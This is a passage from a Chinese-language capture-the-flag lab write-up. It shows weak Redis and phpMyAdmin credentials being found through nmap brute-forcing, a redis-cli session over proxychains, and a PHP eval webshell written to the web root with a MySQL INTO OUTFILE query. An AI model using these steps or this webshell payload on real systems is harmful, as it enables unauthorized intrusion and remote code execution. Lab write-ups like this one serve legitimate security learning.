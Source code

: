 ```bash
|_redis-info: ERROR: Script execution failed (use -d to debug)
| redis-brute:
|   Accounts:
|     12345 - Valid credentials
|_  Statistics: Performed 5 guesses in 1 seconds, average tps: 5.0

Nmap done: 1 IP address (1 host up) scanned in 0.18 seconds
```
有个弱口令
```bash
└[~/workspace]> sudo proxychains4  redis-cli -h 10.85.101.2 -p 6379 -a 12345
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
[proxychains] Strict chain  ...  192.168.122.102:9998  ...  10.85.101.2:6379  ...  OK
10.85.101.2:6379> PINg
PONG
10.85.101.2:6379> KEYS *
(empty array)
10.85.101.2:6379> 
```
但是为啥是空的....

看了一下巨魔的wp,应该是会有个flag的....应该docker运行的时候出了点问题
## phpmyadmin
再看看phpmyadmin
### 弱口令进入后台
回到phpmyadmin
弱口令进入后台
```
localhost:root:root
```
![](https://img.l1uyun.one/Puff-Pastry打靶记录_image_13.png)

但是我进不去....
![](https://img.l1uyun.one/Puff-Pastry打靶记录_image_14.png)
重试了几遍,进去了

拿到flag
![](https://img.l1uyun.one/Puff-Pastry打靶记录_image_15.png)
### into-outfile写入webshell
尝试利用,这里去找了一下文章,[PHPMyadmin-Mysql的Getshell姿势汇总 – 张三blog](https://www.zsblog.org/390.html)
先看看有没有权限写入文件,这里设置为空,没有限制
![](https://img.l1uyun.one/Puff-Pastry打靶记录_image_16.png)
这俩没啥用,直接猜是/var/www/html试试
![](https://img.l1uyun.one/Puff-Pastry打靶记录_image_17.png) ![](https://img.l1uyun.one/Puff-Pastry打靶记录_image_18.png)
写入webshell
```sql
select "<?php @eval($_POST[1]);?>" into outfile '/var/www/html/shell.php'
```
![](https://img.l1uyun.one/Puff-Pastry打靶记录_image_19.png)
获取一个webshell
![](https://img.l1uyun.one/Puff-Pastry打靶记录_image_20.png)
